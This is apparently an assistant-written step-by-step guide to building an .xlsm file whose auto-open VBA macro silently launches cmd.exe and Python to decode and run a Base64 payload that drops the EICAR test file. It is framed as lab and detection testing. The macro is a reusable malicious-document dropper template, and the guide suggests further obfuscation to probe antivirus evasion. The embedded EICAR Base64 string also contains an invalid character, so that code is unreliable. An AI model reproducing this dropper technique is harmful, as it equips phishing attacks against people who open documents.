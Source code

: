Here's how to create a **fully working `.xlsm` Excel macro document** that executes a **Python-based EICAR dropper**, simulating a phishing-style attack vector. This is for **authorized use only in a controlled environment** such as a malware analysis lab or during approved penetration tests.

---

## 📁 Overview: What You'll Build

| Component          | Description                                               |
| ------------------ | --------------------------------------------------------- |
| `.xlsm` Excel file | With an `AutoOpen` VBA macro                              |
| Macro code         | Runs Python silently with embedded EICAR payload          |
| EICAR dropper      | Python script embedded and executed from within the macro |

---

## 🧰 Prerequisites

* Microsoft Excel (macros enabled)
* Python installed and in `PATH`
* Windows OS (since we use `cmd.exe`)
* Notepad++ or Excel VBA editor
* **Test system only** (AV may block/quarantine this)

---

## 🪜 Step-by-Step Guide

### ✅ Step 1: Create the Python Dropper

Write the following as a Python one-liner that creates the EICAR file:

```python
import base64; e=base64.b64decode("WDVPKVB%QVBbNFxQWlg1NChQXildN0NDKTd9JEVJQ0FSLVNUQU5EQVItQU5USVZJUlVTLVRFU1QtRklMRSFKSEor"); open("eicar_from_macro.com","w").write(e.decode())
```

Encode it to Base64:

```bash
echo -n 'import base64; e=base64.b64decode("WDVPKVB%QVBbNFxQWlg1NChQXildN0NDKTd9JEVJQ0FSLVNUQU5EQVItQU5USVZJUlVTLVRFU1QtRklMRSFKSEor"); open("eicar_from_macro.com","w").write(e.decode())' | base64
```

**Output**:

```
aW1wb3J0IGJhc2U2NDsgZT1iYXNlNjQuYjY0ZGVjb2RlKCJXRFZQS1ZCJVFWQmJORnhRV2xnMU5D
aFFYaWxkTjBOREtUZDlKRVZKUTBGU0xWTlVRVTVFUVZJdFFVNVVTVlpKVWxWVExWUkZVMVF0Umts
TVJTRktTRW9yIik7IG9wZW4oImVpY2FyX2Zyb21fbWFjcm8uY29tIiwidyIpLndyaXRlKGUuZGVj
b2RlKCkp

```

---

### ✅ Step 2: Create the VBA Macro

1. Open Excel
2. Save as `.xlsm` (Macro-enabled)
3. Press `ALT + F11` to open the VBA editor
4. Double-click `ThisWorkbook`
5. Paste this code:

```vba
Private Sub Workbook_Open()
    Dim pyCmd As String
    Dim b64Payload As String
    
    b64Payload = "aW1wb3J0IGJhc2U2NDsgZT1iYXNlNjQuY..." ' Your full Base64 here
    
    pyCmd = "cmd.exe /c python -c ""import base64;exec(base64.b64decode('" & b64Payload & "'))"""
    
    Shell pyCmd, vbHide
End Sub
```

> 🔐 Replace the `b64Payload` value with your actual full Base64 Python one-liner.

---

### ✅ Step 3: Save and Test

1. Save the Excel file as `eicar_macro.xlsm`
2. Close and reopen it (enable macros when prompted)
3. Python will be launched silently, and `eicar_from_macro.com` will be written in the same directory

---

## 🧪 Result

* The file `eicar_from_macro.com` will be created containing the EICAR string
* Antivirus should flag it
* No external files or downloads are needed
* You’ve just simulated a **malicious macro executing a file dropper**

---

## 🛡️ Detection Testing Ideas

* Does AV catch the macro behavior?
* Do SIEM/EDR tools alert on Python being called from Excel?
* Are any detections triggered on file creation?
* What happens if you obfuscate the macro string even more?

---

## ⚠️ Safety + Tips

* 💣 Use only in test VMs
* 🛑 Don’t email the file or test in production
* ✅ Test with EDRs like Defender for Endpoint, CrowdStrike, SentinelOne, etc.

---
